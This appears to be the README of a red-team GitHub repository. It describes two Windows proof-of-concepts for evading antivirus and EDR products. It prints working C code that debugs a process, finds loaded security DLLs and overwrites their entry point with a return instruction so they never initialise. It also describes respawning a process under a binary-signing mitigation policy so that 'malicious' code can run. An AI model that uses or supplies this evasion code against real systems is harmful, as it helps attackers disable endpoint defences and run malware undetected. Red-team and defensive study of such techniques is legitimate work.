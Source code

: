 # RedTeamCCode
Red Team C code repo

# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

Is a proof-of-concept for the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` trick it will enforce the policy then spawn itself again the respawned process have the policy enforced allowing you run "malicious" code with the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` been set.

# byebyedll.c

Is a proof-of-concept that enforce the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` policy and also debug the child process (itself) and monitor Dlls that are loaded using Windows debugger APIs. It detect Dlls based on the path and patch it. The idea is to prevent EDR and AV Dlls loaded into your process from executing properly. This is a POC the blacklisted Dlls is set to `user32.dll`.  

The event is monitored using the `LOAD_DLL_DEBUG_EVENT` event. 

The DLL location is then retrieved using `event.u.UnloadDll.lpBaseOfDll`

The code is patched using the following functions:

```
VOID *GetEntryPointOffset(CHAR *start, DWORD dwSize, HANDLE hProc) {

    CHAR* mem = GlobalAlloc(GPTR, dwSize);
    DWORD dwBytesRead = 0;

    ReadProcessMemory(hProc, start, mem, dwSize, &dwBytesRead);

    DWORD dwBaseDLLInitializeOffset = *((DWORD*)mem + (0x120 / 4));

#ifdef DEBUG
    printf("dwBaseDLLInitializeOffset offset 0x%x\n", dwBaseDLLInitializeOffset);
#endif

    VOID *dwBaseDLLInitialize = (VOID*)start + dwBaseDLLInitializeOffset;

#ifdef DEBUG
    printf("dwBaseDLLInitialize offset 0x%p\n", dwBaseDLLInitialize);
#endif

    GlobalFree(mem);
    return dwBaseDLLInitialize;
}

VOID ModifyMem(CHAR *start, DWORD dwSize, HANDLE hProc) {
#ifdef DEBUG
    printf("Cleaning HANDLE 0x%p 0x%p length: %d\n", hProc, start, dwSize);
#endif
    VOID* EntryPoint = GetEntryPointOffset(start, dwSize, hProc);
    DWORD dwOut = 0;
    DWORD dwOld = 0;

#ifdef DEBUG
    printf("EntryPoint at 0x%p\n", EntryPoint);
#endif

    VirtualProtectEx(hProc, EntryPoint, 1, PAGE_READWRITE, &dwOld);
    WriteProcessMemory(hProc, EntryPoint, "\xc3", 1, &dwOut);
#ifdef DEBUG
    printf("Size of bytes written: %d\n", dwOut);
#endif
}
```

# Credit 
Mr.Un1k0d3r RingZer0 Team
